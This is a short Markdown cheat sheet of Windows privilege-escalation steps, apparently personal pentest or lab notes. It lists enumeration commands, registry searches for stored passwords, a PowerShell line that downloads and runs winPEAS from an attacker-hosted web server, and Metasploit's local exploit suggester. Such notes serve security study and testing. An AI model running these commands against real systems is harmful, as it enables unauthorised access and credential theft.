 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `wmic product get name,version,vendor` installed apps
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?
- `cmdkey /list` list
- `reg query HKLM /f password /t REG_SZ /s` registry key containing passwords
- `reg query HKCU /f password /t REG_SZ /s` registry key containing passwords
<!-- -->

		Kernal Exploits
- `driverquery`
### Winpeas.exe
Local:
- `python3 -m http.server 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
 
 ### Metasploit
 only works if you have meterpreter shell
 
 - `background` background current shell
 - `use post/multi/recon/local_exploit_suggester`
 - `set session 1`
 - `run`